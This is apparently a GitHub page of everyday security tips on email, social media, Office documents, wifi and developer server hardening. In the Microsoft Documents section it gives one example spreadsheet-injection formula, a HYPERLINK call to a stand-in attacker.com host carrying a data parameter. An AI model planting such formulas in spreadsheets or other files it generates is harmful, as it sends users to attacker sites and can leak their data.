 ## Email security tips
  - Have ** 2-factor authentication** on your emails. If someone gets access to your primary email, then they can use `forgot password` on many sites (Evernote, Bank Accounts) and change the password. I heard of somebody that got their email compromised; in turn, the hacker got access to their Evernote and found some passwords to their cryptocurrency exchanges and got robbed big time. Don't be that guy. Enable 2FA.
  - Be aware of phishing emails. No, Bill Gates won't share his fortune and donate you a million, nor you won any lottery. Don't trust any email saying that you won money or any price. Also, be aware of fake company emails asking for you to log in somewhere. The site might look very similar, but it's a trap! They want to capture your password. Check the domain carefully or even better yet don't click on any link from the email and type your company web address directly as you usually do.
  - Be aware of malicious attachments. Specially executables (*.exe, *.bat, *.sh, *.zip). See also Microsoft documents part. Everything that can run arbitrary code on your computer should not be trusted.

## Social Media
  - Enable all the security options they have like 2 Factor authentication, SMS confirmation.
  - Don't share passwords with your friends or change them afterwards.

## Microsoft Documents
  - If you use your documents locally or by trusted peers, you shouldn't have many problems. However, for auto-generated documents like (*.csv) that you download from emails or compromised websites they can change data or insert malicious links (`=HYPERLINK("[http://attacker.com?some='data](http://attacker.com/?some=%27data%27)')`) and take you to their websites.
  - Be aware of macros. They are code that automatically runs when you open the program. In modern versions, Office alerts you when a doc has a macro, and now they are disabled by default.

## Wifi security tips
  - Use a password for your wifi. If you leave it open anybody connects to it can have access to your computers, cell phones, tablets, and smart fridge or cameras.
  - Use strong encryption for Wifi. Don't use WEP encryption. Use  WPA or the newer WPA2. WEP can be cracked relatively quickly using some programs.
  - Use a strong password. It makes it harder to break.
  - Provide a separate network for guests, so your connected devices are not exposed nor your router.
  - If you use public wifi, consider using a VPN. Hotspot operators and ISPs can snoop into your traffic, but if you use a VPN, they won't be able to.
  - If you are very paranoid or are working with something top secret. Here are some advanced options:
      - Have a hidden Wi-fi (SSID) and don't broadcast it. You will need the name to connect to it.
      - Restrict access by MAC address list. This list will allow only the devices in there to connect to the network.
      - Shutdown your network when is not in used. It's a little extreme, but that's the ultimate security measure or use wired connections.

## Developers security tips
  - Keep all your operating systems and dependencies up-to-date. Maintainers usually patch their software after vulnerabilities come to light.
  - Use latest encryption protocols TLS (rather than older SSL versions)
      - Use SFTP instead of FTP
      - Use SSH instead of telnet
      - Use HTTPS instead of HTTP. You can encrypt for free with [Let's Encrypt](https://letsencrypt.org/).
  - Disable direct root login in SSH. You can escalate if needed using `sudo`.
  - Disable SSH connection with passwords. Use ssh private key to log in instead.
  - Use firewalls to block any port that you are not using. Firewalls minimize the surface of attack. For Linux, you can use `UFW`; another option is `iptables`.
  - Use VPN and private networks. If you don't need to expose a database to the internet, even better. Make it only accessible for your private network or VPN.
  - Don't trust the default configuration of programs facing the internet. Change default ports on databases, ssh.